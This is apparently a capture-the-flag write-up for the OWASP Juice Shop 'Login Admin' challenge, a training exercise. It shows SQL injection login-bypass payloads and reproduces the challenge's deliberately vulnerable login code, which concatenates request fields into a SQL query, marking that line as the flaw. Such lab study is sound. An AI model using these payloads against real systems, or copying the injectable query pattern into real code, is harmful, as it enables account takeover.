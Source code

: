 # Login Admin

`https://pwning.owasp-juice.shop/companion-guide/latest/part1/running.html`

Using a common SQLi query first:

```sql
' or 1=1
```

![alt text](assets/loginadmin.png)

We can use SQL comments to login.

```sql
' or 1=1 --
```

![alt text](assets/loginadmin2.png)

![alt text](assets/loginadmin3.png)

## Coding Challenge

```js
export function login () {
	  function afterLogin (user: { data: User, bid: number }, res: Response, next: NextFunction) {
	    BasketModel.findOrCreate({ where: { UserId: user.data.id } })
	      .then(([basket]: [BasketModel, boolean]) => {
	        const token = security.authorize(user)
	        user.bid = basket.id // keep track of original basket
	        security.authenticatedUsers.put(token, user)
	        res.json({ authentication: { token, bid: basket.id, umail: user.data.email } })
	      }).catch((error: Error) => {
	        next(error)
	      })
	  }
	 
	  return (req: Request, res: Response, next: NextFunction) => {
	    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: true })
	      .then((authenticatedUser) => {
	        const user = utils.queryResultToJson(authenticatedUser)
	        if (user.data?.id && user.data.totpSecret !== '') {
	          res.status(401).json({
	            status: 'totp_token_required',
	            data: {
	              tmpToken: security.authorize({
	                userId: user.data.id,
	                type: 'password_valid_needs_second_factor_token'
	              })
	            }
	          })
	        } else if (user.data?.id) {
	          afterLogin(user, res, next)
	        } else {
	          res.status(401).send(res.__('Invalid email or password.'))
	        }
	      }).catch((error: Error) => {
	        next(error)
	      })
	  }
```

Vuln:

```js
models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: true })
```

![alt text](assets/loginadminfix.png)

